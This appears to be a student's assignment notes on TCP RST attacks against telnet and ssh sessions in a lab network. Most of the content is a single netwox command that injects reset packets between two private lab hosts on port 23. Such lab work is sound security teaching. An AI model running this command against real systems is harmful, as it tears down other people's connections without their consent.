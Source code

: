 ```yaml
---
id: A5
description: and assignments
title: TCP attacks
tags:
  - sfwr4c03
  - assignment
modified: 2025-04-09 17:48:54 GMT-04:00
---
```


## TCP RST Attacks on `telnet` and `ssh`

assuming leg IP: `10.0.0.2`, vic IP: `10.0.0.3`

The `netwox` commands are as follow:

```bash
netwox 78 --filter "host 10.0.0.2 and host 10.0.0.3 and port 23" --src-ip 10.0.0.2 --dst-ip 10.0.0.3
```